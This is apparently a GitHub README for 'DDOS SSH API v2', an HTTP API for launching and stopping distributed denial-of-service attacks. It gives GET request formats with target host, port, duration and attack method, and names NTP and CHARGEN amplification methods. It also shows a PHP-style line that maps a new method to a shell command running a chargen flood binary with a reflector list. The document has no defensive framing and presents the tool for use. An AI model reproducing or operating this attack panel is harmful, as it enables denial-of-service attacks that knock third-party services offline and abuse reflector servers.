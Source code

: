 DDOS SSH API v2


Launch attack:
  - Format: GET http://yourlink.co/?host=HOST&port=PORT&time=TIME&method=METHOD
  - Format example: GET http://yourlink.co/?host=127.0.0.1&port=80&time=60&method=NTP

Stop attack:
  - Format: GET http://yourlink.co/?host=HOST&port=PORT&method=STOP
  - Format example: GET http://yourlink.co/?host=127.0.0.1&&method=STOP
  
Add method:
  - Format example: $_METHOD["CHARGEN"] = "./chargen %ip% %port% chargen.txt 1 -1 %time%";


